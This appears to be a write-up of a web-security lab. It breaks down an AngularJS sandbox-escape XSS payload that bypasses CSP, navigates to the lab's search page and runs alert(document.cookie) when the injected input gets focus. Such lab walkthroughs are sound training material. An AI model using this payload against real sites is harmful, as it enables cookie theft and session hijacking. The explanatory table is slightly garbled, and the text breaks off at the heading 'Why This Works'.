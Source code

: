 ##  URL Decoded Version

```html
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
</script>
```

---

##  Reverse Engineering the Payload

###  Step 1: Set the Location

```js
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=...'
```

* **`location`** is a JavaScript global object.
* When set, it causes the browser to **navigate to the new URL**.
* The URL contains:

  * A **search parameter** (`?search=`)
  * An AngularJS-based **injection payload**
  * A **fragment identifier** (`#x`) to auto-focus the input field.

---

###  Step 2: Understanding `ng-focus` and AngularJS Filters

```html
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>
```

| Element                       | Explanation                                                               |                                                     |
| ----------------------------- | ------------------------------------------------------------------------- | --------------------------------------------------- |
| `<input id="x">`              | An input element is injected into the DOM with ID `x`.                    |                                                     |
| `ng-focus=...`                | Executes AngularJS expression when the input is focused.                  |                                                     |
| `$event.composedPath()`       | Gets an array of event propagation path elements.                         |                                                     |
| \`                            | orderBy:\`                                                                | AngularJS filter that accepts a function or string. |
| `'z=alert)(document.cookie)'` | Bypasses CSP: assigns `alert` to `z` and then calls `z(document.cookie)`. |                                                     |

---


<img width="882" height="257" alt="image" src="https://github.com/user-attachments/assets/6fd6e3f3-1c3b-4b7f-a428-9e7359fe0110" />


### Why This Works

